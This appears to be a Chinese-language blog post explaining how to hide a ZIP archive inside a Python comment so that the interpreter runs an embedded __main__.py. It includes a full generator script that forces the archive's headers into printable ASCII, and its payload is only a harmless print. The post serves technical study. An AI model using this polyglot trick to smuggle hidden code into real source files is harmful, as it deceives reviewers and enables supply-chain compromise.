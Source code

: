 +++
date = '2025-08-04T8:00:00+08:00'
draft = false
title = 'Executing arbitrary Python code from a comment'
tags = ["python"]
+++
通过注释执行任意Python代码

### 问题描述
Q: 只能控制一行的.py代码中注释的内容(\n\r均会被替换为空字符), 如何执行任意代码?  
A: 在注释#中, 构造一个.zip 文件, python 会将该内容当成一个zip包执行, 触发任意代码执行  

### 解决方案
- 从 Python 3.5 起, 可以直接执行一个 .zip 文件
    ```python3
    python myapp.zip
    ```
    前提是ZIP 包中包含一个顶层的`__main__.py`文件, Python 会把它当作 zipapp, 自动解压并运行`__main__.py`

    > Python 会从末尾找到 ZIP 的目录结构, 而不是依赖文件头, 所以前面的“垃圾”字节会被忽略

Python 源码中的任何行, 只要以 # 开头, 解释器都会忽略后面内容, 因此可以:
- 把 ZIP 文件的数据藏在 Python 源码中的注释中（开头加 #）
- 把 ZIP 数据直接拼接在 Python 文件的后面, 只保证文件头部分是合法 Python
- ZIP 不关心前缀, Python 只要最前面是有效源码, 也不会管后面

### 难点
ZIP 文件头包含**二进制字段**，比如
- 偏移量（文件数据相对于 ZIP 开头的位置）
- 长度（文件名长度、注释长度等）
- 这些值写死在 header 里, 是十六进制整数
- 如果这些字节中出现了像 \x00、\xFF 等非 ASCII 内容, Python 就不能把它当注释

解决方法: 暴力穷举合法组合

想办法 **调整偏移值和结构位置**，使得最终写出来的 ZIP 文件
- 所有的字段值都转化为 可打印字符（ASCII 范围内）
- 所有 binary 字段看起来都像合法的注释字符串
于是用 `itertools.product(range(256), repeat=2)` 暴力尝试偏移组合，只要碰巧生成的 ZIP 包所有关键字节都在可打印范围内（ASCII 32~126），就认为成功。



下面是`generate_polygloy_zip.py`代码, 会生成一个符合要求的`polygloy.py`代码, 最后运行该代码, 可以执行Body里面的内容`BODY = b"print('FROM MAIN.py FILE!!!')#"`

```python3
# struct: 按字节结构打包数据，方便构造 ZIP 文件二进制头
# itertools: 用来暴力枚举 CRC 校验和后缀（确保安全ASCII）
# zlib: 计算 CRC32 校验和
import struct, itertools, zlib

# 文件开头代码
# encode(): Unicode 字符串 -> bytes 字节串
JUNK_HEAD = """print("Hello World!")
# This is a comment. Here's another:
# """.encode()

# 文件结尾代码
JUNK_TAIL = """
print("Thanks for playing!")"""


# zip 文件核心代码
# b: 字节串
FILENAME = b"__main__.py"
BODY = b"print('FROM MAIN.py FILE!!!')#"


# 校验 CRC 是否为 ASCII-safe
def ascii_safe(x: int) -> bool:
    return all(((x >> (8*i)) & 0x80) == 0 for i in range(4))


# 检查 32 位整数的四个字节，每个字节最高位（0x80）是否为 0，即是否为 ASCII 范围内的字节
def find_suffix(core: bytes, length: int = 4) -> tuple[bytes, int]:
    """
    - ZIP 文件 CRC32 计算结果必须 ASCII-safe（低于 0x80）
    - 这里用暴力方法，给 payload 后面加4字节后缀，找到合适的后缀让 CRC32 满足 ASCII-safe 条件
    """
    printable = range(0x20, 0x7f)
    for tail in itertools.product(printable, repeat=length):
        payload = core + bytes(tail)
        crc = zlib.crc32(payload) & 0xFFFFFFFF
        if ascii_safe(crc):
            return bytes(tail), crc

    raise RuntimeError("No ASCII-safe CRC found.")

# 计算最终 payload
SUFFIX, CRC = find_suffix(BODY)
PAYLOAD = BODY + SUFFIX
SIZE = len(PAYLOAD)

def le32(x): return struct.pack("<I", x) # 4字节小端无符号整数
def le16(x): return struct.pack("<H", x) # 2字节小端无符号整数

# ZIP 结构中各签名常量
SIG_LFH  = 0x04034B50 # 本地文件头 Local File Header
SIG_CDH  = 0x02014B50 # 中央目录头 Central Directory Header
SIG_EOCD = 0x06054B50 # 结束目录头 End of Central Directory

# zip 文件偏移量设置
delta = len(JUNK_HEAD)

# 构建 Local File Header
"""
Local File Header 是 ZIP 格式中的一部分，告诉解压程序该文件的元信息
- version needed to extract，flags，compression method 等字段置 0 表示无压缩，简单存储
- CRC32、压缩大小、解压大小都是我们计算的
- 文件名长度和文件名
"""
lfh = (
    le32(SIG_LFH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) +
    FILENAME
)

# 构建 Central Directory Header
"""
- Central Directory 是 ZIP 文件目录结构，记录每个文件信息和偏移，
- 其中重要的是 relative offset of LFH，也就是 Local File Header 在整个 ZIP 文件里的偏移，必须加上 delta
"""
cdh = (
    le32(SIG_CDH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) + le16(0) +
    le16(0) + le16(0) + le32(0) + le32(delta) +
    FILENAME
)

# 确保偏移量 ASCII-safe
"""
- ZIP 目录偏移需要是 ASCII 字节，否则写入 .py 文件时会出错
- 这里通过填充若干 \x00 字节，保证偏移合法
"""
cd_offset = delta + len(lfh) + len(PAYLOAD)
pad = 0
while not ascii_safe(cd_offset + pad):
    pad += 1
padding = b'\x00' * pad
cd_offset += pad

# 构建 End of Central Directory Header
"""
EOCD 记录 ZIP 中央目录大小、偏移及注释长度等信息
"""
eocd = (
    le32(SIG_EOCD) +
    le16(0) + le16(0) +
    le16(1) + le16(1) +
    le32(len(cdh)) +
    le32(cd_offset) +
    le16(len(JUNK_TAIL))
)

# 拼接完整 ZIP 内容
zip_bytes = lfh + PAYLOAD + padding + cdh + eocd
zip_bytes = bytearray(zip_bytes)
assert all(b < 0x80 for b in zip_bytes), "非 ASCII 字节存在"

# 写入 polyglot.py 文件
with open("polyglot.py", "wb") as f:
    f.write(JUNK_HEAD + zip_bytes + JUNK_TAIL.encode())

# 运行提示
print("✅ polyglot.py 生成完毕。运行它即可执行嵌入的 __main__.py 内容：")
print("  $ python3 polyglot.py")
```
